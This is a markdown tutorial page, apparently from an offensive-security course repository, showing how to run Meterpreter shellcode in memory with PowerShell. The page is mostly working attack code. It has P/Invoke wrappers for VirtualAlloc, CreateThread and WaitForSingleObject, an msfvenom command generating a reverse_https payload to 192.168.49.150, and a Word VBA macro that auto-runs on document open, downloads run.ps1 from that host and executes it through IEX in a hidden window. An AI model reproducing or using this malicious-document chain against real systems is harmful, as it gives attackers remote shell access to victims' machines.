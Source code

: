 ## Building our Shellcode

We can now start building our shellcode same as before in the section [Creating Our Shellcode](../02.Document%20memory/Creating%20Our%20Shellcode.md), we use 3 Win32 APIs that are:
- VirtualAlloc
- RtlMoveMemory(In powershell we'll use copy method in _System.Runtime.InteropServices.Marshal_ namespace)
- CreateThread

First off, we use pinvoke to translate the arguments of VirtualAlloc and CreatThread

```Powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
}
"@

Add-Type $Kernel32
```

Next, we build our shellcode:
```msfvenom
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.150 LPORT=443 EXITFUNC=thread -f ps1 -o memory_shellcode_powershell.ps1
```

We can now add our shell code to a variable called $buf.
Create another variable called $size that is the size of our $buf variable
And finally, call our functions.
```Powershell
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60...

$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
```
The arguments have already been explained in the [Creating Our Shellcode](../02.Document%20memory/Creating%20Our%20Shellcode.md) section.

Our final code will look something like so:
```Powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
}
"@

Add-Type $Kernel32

[Byte[]] $buf = 0xfc,0xe8.....0x0,0x53,0xff,0xd5

$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
```

This may get us a shell, but we need to trigger this from a word macro.
For this, we'll create a cradle that will download our code into memory and execute it.

The code for the cradle will look as follows:
```VBA
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.49.150/run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

However, we're still not completely finished yet.
Essentially, with our current code, the powershell will terminate before it even starts, this is because our shell dies as soon as the parent Powershell proccess terminates.

To solve this, we will instruct Powershell to delay it's terminatin until the shell fully executes.
For this, we can use Win32 WaitSingleObject API to pause the script and allow meterpreter to finish.
We will now proceed to update our script using P/Invoke and invoke the declared function:

```Powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    
	[DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
	
	[DllImport("kernel32.dll", SetLastError=true)] 
	public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

}
"@

Add-Type $Kernel32

[Byte[]] $buf = 0xfc,0xe8.....0x0,0x53,0xff,0xd5

$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);

[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

With this, we have successfully created a shellcode in memory using Powershell:
![ps-in-mem-proof](../../../../Screenshots/ps-in-mem-proof.png)
